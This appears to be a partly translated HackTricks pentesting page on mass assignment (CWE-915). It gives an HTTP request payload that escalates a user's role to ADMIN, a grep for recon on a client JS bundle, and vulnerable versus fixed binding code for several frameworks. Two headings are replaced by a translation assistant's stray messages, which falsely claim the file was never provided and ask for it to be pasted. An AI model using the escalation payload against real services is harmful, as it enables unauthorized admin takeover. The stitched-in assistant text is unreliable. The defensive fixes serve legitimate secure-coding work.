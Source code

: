 # Mass Assignment (CWE-915) – Privilege Escalation via Unsafe Model Binding

{{#include ../banners/hacktricks-training.md}}

Mass assignment (a.k.a. insecure object binding) si verifica quando un API/controller prende JSON fornito dall'utente e lo associa direttamente a un modello/entità server-side senza una allow-list esplicita di campi. Se proprietà privilegiate come roles, isAdmin, status o ownership fields sono bindable, qualsiasi utente autenticato può ottenere privilegi elevati o manomettere uno stato protetto.

Questo è un problema di Broken Access Control (OWASP A01:2021) che spesso abilita vertical privilege escalation impostando roles=ADMIN o simili. Colpisce comunemente framework che supportano automatic binding dei request bodies ai data models (Rails, Laravel/Eloquent, Django ORM, Spring/Jackson, Express/Mongoose, Sequelize, Go structs, ecc.).

## 1) Trovare Mass Assignment

Cerca endpoint self-service che aggiornano il tuo profilo o risorse simili:
- PUT/PATCH /api/users/{id}
- PATCH /me, PUT /profile
- PUT /api/orders/{id}

Euristiche che indicano mass assignment:
- La risposta ripete i campi gestiti dal server (es. roles, status, isAdmin, permissions) anche quando non li hai inviati.
- I bundle client contengono role names/IDs o altri nomi di attributi privilegiati usati in tutta l'app (admin, staff, moderator, internal flags), suggerendo uno schema bindable.
- I serializer backend accettano campi sconosciuti senza rifiutarli.

Flusso di test rapido:
1) Esegui un aggiornamento normale con solo campi sicuri e osserva l'intera struttura della risposta JSON (this leaks the schema).
2) Ripeti l'aggiornamento includendo nel body un campo privilegiato creato ad arte. Se la risposta mantiene la modifica, probabilmente hai mass assignment.

Example baseline update revealing schema:
```http
PUT /api/users/12934 HTTP/1.1
Host: target.example
Content-Type: application/json

{
"id": 12934,
"email": "user@example.com",
"firstName": "Sam",
"lastName": "Curry"
}
```
La risposta suggerisce campi privilegiati:
```http
HTTP/1.1 200 OK
Content-Type: application/json

{
"id": 12934,
"email": "user@example.com",
"firstName": "Sam",
"lastName": "Curry",
"roles": null,
"status": "ACTIVATED",
"filters": []
}
```
## 2) Sfruttamento – Role Escalation via Mass Assignment

Una volta che conosci il bindable shape, includi la proprietà privileged nella stessa richiesta.

Esempio: imposta roles su ADMIN sulla tua user resource:
```http
PUT /api/users/12934 HTTP/1.1
Host: target.example
Content-Type: application/json

{
"id": 12934,
"email": "user@example.com",
"firstName": "Sam",
"lastName": "Curry",
"roles": [
{ "id": 1, "description": "ADMIN role", "name": "ADMIN" }
]
}
```
Se la response persiste la modifica di ruolo, esegui una re-authenticate o un refresh dei tokens/claims in modo che l'app emetta una admin-context session e mostri UI/endpoints privilegiati.

Notes
- Role identifiers and shapes are frequently enumerated from the client JS bundle or API docs. Search for strings like "roles", "ADMIN", "STAFF", or numeric role IDs.
- If tokens contain claims (e.g., JWT roles), a logout/login or token refresh is usually required to realize the new privileges.


## 3) Client Bundle Recon for Schema and Role IDs

- Inspect minified JS bundles for role strings and model names; source maps may reveal DTO shapes.
- Look for arrays/maps of roles, permissions, or feature flags. Build payloads matching the exact property names and nesting.
- Typical indicators: role name constants, dropdown option lists, validation schemas.

Handy greps against a downloaded bundle:
```bash
strings app.*.js | grep -iE "role|admin|isAdmin|permission|status" | sort -u
```
## 4) Insidie dei framework e pattern sicuri

La vulnerabilità si verifica quando i framework associano req.body direttamente a entità persistenti. Di seguito sono riportati errori comuni e pattern minimi e sicuri.

**Node.js (Express + Mongoose)**

Vulnerabile:
```js
// Any field in req.body (including roles/isAdmin) is persisted
app.put('/api/users/:id', async (req, res) => {
const user = await User.findByIdAndUpdate(req.params.id, req.body, { new: true });
res.json(user);
});
```
Non ho ricevuto il contenuto del file. Per favore incolla qui il contenuto di src/pentesting-web/mass-assignment-cwe-915.md che vuoi tradurre/aggiustare e procederò a tradurre il testo rilevante in italiano mantenendo intatta tutta la sintassi markdown/html, i codici, i link e i tag.
```js
// Strict allow-list and explicit authZ for role-changing
app.put('/api/users/:id', async (req, res) => {
const allowed = (({ firstName, lastName, nickName }) => ({ firstName, lastName, nickName }))(req.body);
const user = await User.findOneAndUpdate({ _id: req.params.id, owner: req.user.id }, allowed, { new: true });
res.json(user);
});
// Implement a separate admin-only endpoint for role updates with server-side RBAC checks.
```
**Ruby on Rails**

Vulnerabile (senza strong parameters):
```rb
def update
@user.update(params[:user]) # roles/is_admin can be set by client
end
```
Correzione (strong params + no privileged fields):
```rb
def user_params
params.require(:user).permit(:first_name, :last_name, :nick_name)
end
```
**Laravel (Eloquent)**

Vulnerabile:
```php
protected $guarded = []; // Everything mass-assignable (bad)
```
I need the content of src/pentesting-web/mass-assignment-cwe-915.md to fix/translate it. Please paste the file text here (I will translate the English to Italian following your markdown/tag rules and keep code/paths/links unchanged).
```php
protected $fillable = ['first_name','last_name','nick_name']; // No roles/is_admin
```
**Spring Boot (Jackson)**

Pattern vulnerabile:
```java
// Directly binding to entity and persisting it
public User update(@PathVariable Long id, @RequestBody User u) { return repo.save(u); }
```
Correzione: mappare in un DTO con solo i campi consentiti e applicare i controlli di autorizzazione:
```java
record UserUpdateDTO(String firstName, String lastName, String nickName) {}
```
Successivamente copia i campi consentiti dal DTO all'entità lato server e gestisci le modifiche di ruolo solo in handler riservati agli admin dopo i controlli RBAC. Usa @JsonIgnore sui campi privilegiati se necessario e rifiuta proprietà sconosciute.

Go (encoding/json)
- Assicurati che i campi privilegiati usino json:"-" e valida con una struct DTO che includa solo i campi consentiti.
- Considera decoder.DisallowUnknownFields() e la validazione post-bind delle invarianti (i ruoli non possono cambiare nelle route self-service).

## Riferimenti

- [FIA Driver Categorisation: Admin Takeover via Mass Assignment of roles (Full PoC)](https://ian.sh/fia)
- [OWASP Top 10 – Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)
- [CWE-915: Improperly Controlled Modification of Dynamically-Determined Object Attributes](https://cwe.mitre.org/data/definitions/915.html)

{{#include ../banners/hacktricks-training.md}}
